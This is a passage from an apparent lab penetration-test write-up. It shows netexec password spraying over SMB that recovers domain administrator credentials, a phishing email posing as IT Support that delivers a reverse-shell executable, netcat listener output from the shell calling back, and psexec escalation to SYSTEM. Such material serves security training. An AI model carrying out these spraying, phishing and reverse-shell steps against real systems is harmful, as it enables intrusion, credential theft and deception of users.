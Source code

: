 ```python
└─$ nxc smb 10.0.0.0/24 -u usernames.txt -p passwords.txt --shares --continue-on-success
<SNIP>
SMB         10.0.0.140      445    WS2019           [+] cyber.local\administrator:P@ssw0rd (Pwn3d!)
SMB         10.0.0.140      445    WS2019           [+] cyber.local\splunk:P@ssw0rd
```

IT Support was impersonated to send a phishing email to a user. The email included a link directing to a Kali machine hosting `setup.exe` on an HTTP server. The `setup.exe` file was a reverse shell payload designed to connect back to the Kali machine on port 443.

After setting up a listener on port 443 and manually executing `setup.exe` (with Windows Defender disabled), a reverse shell was successfully obtained.

![image.png](image%203.png)

```python
└─$ nc -nvlp 443
listening on [any] 443 ...
connect to [10.0.0.29] from (UNKNOWN) [10.0.0.140] 61202
Microsoft Windows [Version 10.0.17763.3650]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Downloads>whoami
whoami
cyber\administrator

C:\Users\Administrator\Downloads>
```

Using the previously obtained Domain Administrator credentials from password spraying, **impacket-psexec** was utilised to gain access to **WS2019** with **NT AUTHORITY\SYSTEM** privileges.
